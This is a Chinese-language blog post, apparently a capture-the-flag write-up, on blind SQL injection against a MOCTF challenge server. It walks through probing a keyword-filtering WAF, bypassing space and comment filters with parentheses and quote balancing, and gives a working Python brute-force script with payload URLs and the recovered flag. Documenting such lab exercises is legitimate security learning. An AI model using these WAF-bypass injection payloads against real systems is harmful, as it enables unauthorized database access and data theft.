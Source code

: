 ```yaml
---
layout: post
title: SQL盲注
categories: [web]
tags: [web]
fullview: false
comments: true
---
```


最近在练习sql注入写脚本，记录一下思路，刚学的and 1=1也拿出来溜溜  
  
http://119.23.73.3:5004/?id=1  
  
>     首先，没有被过滤是正常显示。  
>     没有被过滤但是查询不到就是空白，比如?id=99999
>     waf过滤关键词，提示whatfuck

## ①   

我首先判断的是有没有用trim()函数，要知道trim函数和过滤是不一样的。  

区别很简单，举个例子。trim默认移除字符串左右两边的空格  

>      http://119.23.73.3:5004/?id=1（此处1后边有空格）
>      如果使用了trim()函数，也过滤掉了空格。
>      那么这个不会出waf的，而是会正常显示id=1的内容。
>      会让你以为空格并没有过滤，是因为trim函数把空格去掉后才用waf函数进行的判断。  

测试的方法很简单**?id=1 1**，让空格在里面就好了。  

发现过滤了空格，寻找能够代替空格的字符。  

>     %20 %09 %0a %0b %0c %0d %a0 %00 /**/    ()  

发现只有()没有被过滤。  

## ②
判断是整形注入还是字符型注入，?id=1-0，发现不是id=1的界面，不是整形注入  
  
## ③

判断id的保护是什么?首先猜测是引号，输入1'1，(这里为了排除trim函数的影响)，发现没有出现waf，但是会出现空白。所以是单引号保护，因为单引号没有被过滤，会匹配原来保护id的两个单引号的前一个，导致了有一了孤零零的单引号没有人和他配对，就会出错，什么也查不出来。  

##④

判断截断字符有没有被过滤，发现尝试%23，--+，--%20都会被过滤。  

所以考虑and '1这样绕过，匹配最后的那个'，不让他孤零零，有任何他匹配就不会出错。  

## ⑤   

判断其他的过滤字符  

>     union被过滤，无法使用联合查询
>     > < like regexp被过滤，但是=没有被过滤，between and 也没有被过滤。  
>     or被过滤，information这个一会再说，有点特殊。  
>     mid,ascii没有被过滤，逗号也没有被过滤。

## ⑥
判断逻辑  

>     http://119.23.73.3:5004/?id=1%27and(select(0))and%271
>     http://119.23.73.3:5004/?id=1%27and(select(1))and%271  

发现可以判断出来注入的逻辑，只要构造语句让select(0)和select(1)里面的1，0值出现就可以判断了。  

## ⑦   
脚本，py3

<pre><code>import requests

shiliu="0x20"
zuihou="0x7f"
i=1
while True:
    #http://119.23.73.3:5004/?id=1%27and(select(mid((select(database())),1,1))=%27m%27)and%271 #MOCTF
    #url="http://119.23.73.3:5004/?id=1%27and(select(select(group_concat(table_name))from(information_schema.tables)where(table_schema)='moctf')between("+shiliu+")and(0x7f))and%271"  #DO_Y0U_L1KE_LONG_T4BLE_NAME,NEWS
    #url="http://119.23.73.3:5004/?id=1%27and(select(select(group_concat(column_name))from(information_schema.columns)where(table_name)='do_y0u_l1ke_long_t4ble_name')between("+shiliu+")and(0x7f))and%271"  #D0_YOU_ALS0_L1KE_VERY_LONG_COLUMN_NAME
    url="http://119.23.73.3:5004/?id=1%27and(select(ascii(mid((select(d0_you_als0_l1ke_very_long_column_name)from(do_y0u_l1ke_long_t4ble_name)),"+str(i)+",1)))between("+shiliu+")and(0x7f))and%271"  #D0_YOU_ALS0_L1KE_VERY_LONG_COLUMN_NAME
    res=requests.get(url)
    #print(url)


#MOCTF{B1IND_SQL_1NJECTI0N_G0OD}

    if "Hello" not in res.text:
        i+=1
        x=hex(int(shiliu,16)-1)
        if '20' in x:
            break;
        print(x)
        zuihou = shiliu + zuihou.replace("0x","")



        shiliu="0x20"
        #shiliu=x+shiliu.replace("0x","")   #跑前三个的时候这个不能注释掉,跑最后一个得注释掉



    shiliu=str(hex(int(shiliu,16)+1))

</code></pre>  

数据库我是手动测试的，是moctf，然后剩下的，一开始偷了懒，没用ascii跑，结果flag大小写都提交不上，原因是flag有大写也有小写，数据库是对大小写不敏感的，用ascii就可以了  
  
第一个语句我没用脚本跑，自己用手试出来的。  
  
>     moctf{b1ind_SQL_1njecti0n_g0od}  
>     兄弟们不会做的就问啊，输出一下url，挨个看看怎么跑的，直接提交flag没啥用  


最后说一下那个or被过滤了，为什么information没有被过滤。    

information确实被过滤了，但是information只要加上其他为被过滤的字符，也不会被过滤。  

为此还去群里问了下，
  
出题人:Waf加了智能识别语义，information语境就不过滤，这样听起来会不会更牛逼